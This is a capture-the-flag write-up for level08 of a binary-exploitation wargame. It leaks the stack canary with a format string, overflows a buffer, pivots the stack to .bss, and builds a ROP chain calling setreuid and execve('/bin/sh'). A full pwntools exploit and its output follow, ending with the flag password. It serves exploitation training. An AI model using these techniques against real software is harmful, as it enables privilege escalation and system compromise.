

## Infos on the binary

```shell
level08@rainfall:~$ checksec maelcum
[*] '/home/level08/maelcum'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Same protections as level07.


In the `relay_data` function, there is a buffer of 40 bytes, in which we can read 64 bytes, allowing to overflow.
There is a canary check, after this buffer, we need to put its value here. It is at the 17th position

```shell
level08@rainfall:~$ python3 -c 'import sys; sys.stdout.buffer.write(b"%p "*20)' | ./maelcum
  [ZION] Maelcum speaks.
  [MAELCUM] Relay node — Babylon not.
[MAELCUM] Tag this relay (who's asking?): [MAELCUM] Logging relay tag: 0x7fffffffe080 (nil) (nil) 0x7ffff7e04b20 0x410 (nil) 0x3c 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x20702520 (nil) `0xcce67c475b0a9200` 0x7fffffffe2b0 0x401821 0x7fffffffe390
```

Also, there is a buffer of 512 bytes that we can use, because the 16 bytes left are not enough to put all the operations after. Its address is 0x404200, which is in the .bss part of the memory (non executable)

 is at 0x404200, and it is `404400 - 404200` = 0x200 = 512 bytes long.

We can then put a `leave ; ret` instructions since we are in a NX region

```shell
level08@rainfall:~$ ROPgadget  --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "leave ; ret"
0x00000000000299d2 : leave ; ret
```

Then once we are on the relay_buffer, we have plenty of space to do our operations to spawn a shell.

There is one problem though, if we use `system` to execute /bin/sh, it will do too many operations, and end up in a read-only zone (GNU-RELRO), causing a crash. We tried to move on the stack or else, but no solutions were found. Instead, we can use `execve`, it just needs an other argument for the argv[], so we put it right before with another `pop rsi ; ret`

```python
from pwn import *

elf = context.binary = ELF('./maelcum')
p = process('./maelcum')

p.sendlineafter(b"[MAELCUM] Tag this relay (who's asking?): ", b'%17$p')
p.recvuntil(b'[MAELCUM] Logging relay tag: ')
rep = p.recvline().strip()
canary = int(rep, 16)
print(hex(canary))

payload = b"RELAY:200"
payload += b"A" * 31
payload += p64(canary)
payload += p64(0x404200)         # relay_buf
payload += p64(0x7ffff7c299d2)   # leave ; ret - cause no exec stack
p.sendafter(b"[MAELCUM] Send it: ", payload)

payload = p64(0x7ffff7c28a92)    # ret
payload += p64(0x7ffff7d0c08d)   # pop rdi ; ret
payload += p64(1025)             # uid de flag08
payload += p64(0x7ffff7d10b7d)   # pop rsi ; ret
payload += p64(1025)             # uid de flag08
payload += p64(0x7ffff7d27370)   # setreuid
payload += p64(0x7ffff7d0c08d)   # pop rdi ; ret
payload += p64(0x7ffff7dcc42f)   # "/bin/sh"
payload += p64(0x7ffff7d10b7d)   # pop rsi ; ret
payload += p64(0)                # for execve argv
payload += p64(0x7ffff7cef030)   # execve

p.sendafter(b"[MAELCUM] Ready for 200 bytes: ", payload)

p.interactive()
```

```shell
level08@rainfall:~$ python3 payload.py
[*] '/home/level08/maelcum'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './maelcum': pid 1280
0x1cd9c0306c294c00
[*] Switching to interactive mode
[MAELCUM] Relayed 88 bytes.
$ whoami
flag08
$ cat /home/flag08/.pass
l3w1pdvtlapo1nmo8uttd1m0pen4iiuk
```